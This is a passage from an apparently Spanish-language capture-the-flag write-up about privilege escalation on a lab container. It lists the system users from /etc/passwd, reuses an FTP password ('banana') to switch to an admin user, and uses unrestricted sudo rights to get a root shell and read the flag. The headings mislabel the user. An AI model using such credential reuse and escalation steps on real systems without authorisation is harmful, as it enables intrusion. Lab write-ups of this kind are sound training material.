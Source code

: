 **Hallazgos Clave:**
Tenemos a los usuarios del sistema:
```bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mwheeler:x:1001:1001::/home/mwheeler:/bin/bash
admin:x:1002:1002::/home/admin:/bin/sh
```

### Explotacion de Privilegios

###### Usuario `[ mwheeler ]`:
Probaremos con las credenciales que habiamos obtenido desde el servicio **FTP** para ver si existe reutilizacion de credenciales:
```bash
# Comando para escalar al usuario: ( admin )
su admin # ( banana )
```

###### Usuario `[ mwheeler ]`:
Listando los permisos de este usuario vemos que podemos ejecutar cualquier comando como cualquier usuario:
```bash
User admin may run the following commands on 92374a735991:
    (ALL) ALL
```

Probamos primero que pasa si ejecutamos:
```bash
sudo whoami
```

Nos retoran:
```bash
root
```

Tenemos una via potencial de migrar a root:
```bash
comando para migrar al usuario: ( root )
sudo bash
```

---
## Evidencia de Compromiso
Flag **root**
```bash
root@92374a735991:~# ls
flag.txt

root@92374a735991:~# cat flag.txt 
This is the root flat - Fl@ggR00t -
```

```bash
# Captura de pantalla o output final
root@92374a735991:~# whoami
root
```

---